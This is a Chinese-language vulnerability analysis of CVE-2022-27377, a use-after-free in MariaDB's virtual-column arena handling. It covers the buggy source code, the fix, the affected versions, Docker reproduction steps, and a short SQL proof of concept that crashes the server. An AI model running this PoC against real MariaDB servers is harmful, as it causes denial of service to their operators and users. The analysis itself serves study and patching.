



# CVE-2022-27377 CWE-416 MariaDB DoS via UAF

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **arena（内存区域）：**在 MariaDB 中，arena 是一种内存分配机制，用于管理不同作用域下对象的生命周期。常见的 arena 包括语句级的 `stmt_arena`（在每条 SQL 执行期间有效）和表级的 `expr_arena`（用于存储虚拟列等长期表达式）。通过将对象分配到不同的 arena，MariaDB 能够在语句结束或表销毁时自动释放相应内存，从而避免内存泄漏或悬空引用。
- **BLOB（Binary Large Object） ：**在 MariaDB 中，BLOB（Binary Large Object） 是一种用于存储二进制数据的大对象类型。当 BLOB 被用于表达式或虚拟列计算时，若需要与其他数据类型进行比较或参与逻辑操作，MariaDB 会尝试将其 隐式转换为字符串或数字类型。这种转换依赖上下文，例如在布尔表达式中会将 BLOB 转为字符串再做真值判断。

## 漏洞原理

该漏洞源于 MariaDB 在构造虚拟列表达式时，将表达式中 `Item_func_in` 的内部数组 `in_vector` 错误地分配到了短生命周期的语句内存区域（`stmt_arena`），而表达式树本身被长期保存在表结构中。语句执行结束后该内存被释放，导致后续访问该虚拟列时仍引用已释放的内存，从而触发 **Use-After-Free**（释放后使用）漏洞。

## 漏洞定位

分析 MariaDB 10.6.3：

在 sql\sql_base.cc 文件，第 5445 行，`fix_all_session_vcol_exprs`函数用于在表加载时，为 虚拟列（Generated Columns） 的表达式树进行绑定（fix_fields），用于切换 arena。

其中第 **5460** 行的判断语句用于备份当前线程（`THD`）的语句级内存分配区域（arena），用于后面恢复。**如果当前使用的是常规语句 arena（生命周期短）**，则将 `stmt_arena` 切换为 `table->expr_arena`，这样在构建虚拟列表达式时，其内部结构将被分配在表级 arena 上（生命周期长）。

但是这里开发者错误地认为，只有当 `stmt_arena` 是 conventional（常规查询）时，才需要为虚拟列表达式切换到长生命周期的内存区域（`expr_arena`）。后续调用的 `t->fix_vcol_exprs(thd)` 在为虚拟列创建和绑定表达式（`Item`）时，会继续使用当前的、生命周期较短的 arena（例如存储过程的 arena）。

当存储过程执行完毕，它的 arena 被整体释放，但新创建的虚拟列表达式（及其内部的 `Item` 对象）已经被关联到了表的定义中。此时，表的定义中就包含了一堆指向已被释放内存的**悬空指针** 。

```cpp
// sql_base.cc 文件，第 5445 行
static bool fix_all_session_vcol_exprs(THD *thd, TABLE_LIST *tables)
{
  Security_context *save_security_ctx= thd->security_ctx;
  TABLE_LIST *first_not_own= thd->lex->first_not_own_table();
  DBUG_ENTER("fix_session_vcol_expr");

  int error= 0;
  for (TABLE_LIST *table= tables; table && table != first_not_own && !error;
       table= table->next_global)
  {
    TABLE *t= table->table;
    if (!table->placeholder() && t->s->vcols_need_refixing &&
         table->lock_type >= TL_FIRST_WRITE)    // 找到需要处理的虚拟列
    {
      Query_arena *stmt_backup= thd->stmt_arena;  // 备份当前的内存区域（stmt_arena）
        /***** 第 5460 行 ************* 漏洞点 *****
        **** 如果当前是常规语句，则将活动内存区域切换到长生命周期的表级 arena ***/
      if (thd->stmt_arena->is_conventional())
        thd->stmt_arena= t->expr_arena;
      if (table->security_ctx)
        thd->security_ctx= table->security_ctx;

      error= t->fix_vcol_exprs(thd);  // 进行表达式的内存分配和绑定

      thd->security_ctx= save_security_ctx;
      thd->stmt_arena= stmt_backup;  // 恢复之前备份的内存区域
    }
  }
  DBUG_RETURN(error);
}
```

## 漏洞修复


引入统一的安全内存区切换机制。调用 `set_n_backup_active_arena()` 时，不仅切换 `stmt_arena`，还会同步切换 `mem_root` 和相应的分配上下文。

随后调用 `restore_active_arena()` 恢复原来的内存区状态，避免影响后续逻辑。它与 `set_n_backup_active_arena()` 配对使用，形成作用域明确的安全切换机制。

```cpp
if (!table->placeholder() && t->s->vcols_need_refixing &&
         table->lock_type >= TL_WRITE_ALLOW_WRITE)
    {
    // Modify --->
      Query_arena backup_arena;
      thd->set_n_backup_active_arena(t->expr_arena, &backup_arena);
    // <---

      if (table->security_ctx)
        thd->security_ctx= table->security_ctx;

      error= t->fix_vcol_exprs(thd);

      thd->security_ctx= save_security_ctx;
      thd->restore_active_arena(t->expr_arena, &backup_arena);  // Modification
    }
  }
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.0 至 10.2.43
- 10.3.0 至 10.3.34
- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

**影响组件**：Item_func_in::cleanup

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2022-27377-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27377-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2022-27377-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，表明 Segmentation Fault（段错误）发生导致 DoS。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
CREATE TABLE t1 (
    v2 BLOB AS ('a' IS NULL),
    a1 INT,
    a  CHAR(1) AS (CAST(a1 IN (0, current_user() IS NULL) AS CHAR(16777216)))
);

INSERT IGNORE INTO t1 VALUES ('x', 'x', v2);

SELECT * FROM t1;
```

`CAST(a1 IN (0, current_user() IS NULL) AS CHAR(16777216))` 这个表达式强制 MariaDB 创建一个 `Item_func_in` 对象来处理 `IN (...)` 逻辑。当MariaDB被要求处理一个超过64KB的超大字符串时，它无法再使用常规、简单的代码路径。它必须**强制切换到内部一套更复杂的、用于处理 `BLOB`/`TEXT` 等大型对象的代码路径**。

`INSERT` 语句在执行时，会在内存中开辟了一块**临时的、生命周期很短的内存区域**，即 `stmt_arena`。同时，由于需要处理虚拟列，这会触发 `fix_all_session_vcol_exprs()` 函数。由于被`CAST`强制进入了**BLOB处理路径**，此时MariaDB的内部状态已经是“非常规”的了，跳过了进入关键的内存区域切换的判断。此时 `a` 列表达式中的`in_vector` 被错误地分配在当前语句作用域的 `stmt_arena` 中（生命周期很短）。

INSERT 完成后，语句执行结束，MariaDB 释放 `stmt_arena` 中的内存，此时`in_vector` 被释放。但是表达式树结构本身仍存在于表结构中，表中的虚拟列表达式已经携带了**悬空指针（悬空的 in_vector）**。

执行 SELECT 语句时 MariaDB 会访问虚拟列 `a`，会再次调用保存的表达式结构 `Item_func_in`，访问其内部成员 `in_vector`，导致 UAF。

## 参考链接


[NVD - CVE-2022-27377](https://nvd.nist.gov/vuln/detail/CVE-2022-27377)

[[MDEV-26281\] ASAN use-after-poison when complex conversion is involved in blob - Jira](https://jira.mariadb.org/browse/MDEV-26281)
